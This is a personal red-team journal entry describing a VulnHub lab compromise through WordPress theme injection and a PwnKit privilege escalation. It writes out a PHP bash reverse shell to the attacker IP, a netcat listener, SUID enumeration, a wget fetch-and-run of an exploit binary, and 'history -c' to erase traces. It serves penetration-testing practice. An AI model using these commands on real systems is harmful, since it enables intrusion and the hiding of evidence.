 
## Red Team Journal – June 15, 2025

### Engagement Overview
**Target:** Basic Pentesting 1 (VulnHub)  
**Box IP:** 192.168.56.102  
**Attacker IP:** 192.168.56.10  
**Methodology:** Web enumeration → WordPress admin access → reverse shell → privesc via CVE-2021-4034 (PwnKit)  

---

### Objectives
- [x] Regain WordPress admin access
- [x] Inject PHP reverse shell via theme
- [x] Get reverse shell to Kali
- [x] Upgrade to interactive TTY
- [x] Enumerate for privilege escalation vectors
- [x] Exploit PwnKit to gain root
- [x] Clean up artifacts

---

### Initial Foothold

**Method:** PHP Reverse Shell via `404.php` in theme
  
**Payload used:**

	<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.10/4444 0>&1'"); ?>

Triggered with:

curl "http://vtcsec/secret/wp-content/themes/twentyseventeen/404.php"

**Listener setup on Kali:**

	nc -lvnp 4444

Result:
Gained shell as www-data.

**Enumeration Highlights**

	uname -a
	cat /etc/os-release
	ls /home
	sudo -l
	find / -perm -4000 -type f 2>/dev/null

**Key Findings:**

    OS: Ubuntu 16.04.3 LTS

    Kernel: 4.10.0-28-generic

    Local user: marlinspike

    No sudo access from www-data

    SUID binary found: /usr/bin/pkexec (used by PwnKit)

**Privilege Escalation**

Exploit: CVE-2021-4034 (PwnKit)
Approach: Static binary hosted on attacker machine

On Kali:

	python3 -m http.server 8000

On Target:

	cd /tmp
	wget http://192.168.56.10:8000/PwnKit -O PwnKit
	chmod +x PwnKit
	./PwnKit

Result:

	root@vtcsec:/tmp# whoami
	root

**Cleanup Actions**

	rm /tmp/PwnKit
	history -c

Root shell obtained.
No persistence or root flag grabbed — purpose was shell lifecycle practice.


**Tools Utilized**

* nmap, gobuster, wpscan
* curl, netcat, wget, python3
* Metasploit (for ProFTPD attempt)
* Static PwnKit binary

**Key Takeaways**

* Always check /wp-login.php and XML-RPC for exposed WordPress logins
* Use encoded curl payloads to bypass broken command injection
* Static precompiled binaries save time vs. build errors (GLIBC mismatch)
* Do not use fg without setting proper terminal (stty raw -echo)
* After shell access, use enumeration before brute forcing — privilege escalation often lives in defaults
<!--stackedit_data:
eyJoaXN0b3J5IjpbMjAzMTM0NzU1OCwtMjMxNjIwMDg0LC0xNz
IwMTI4ODg1XX0=
-->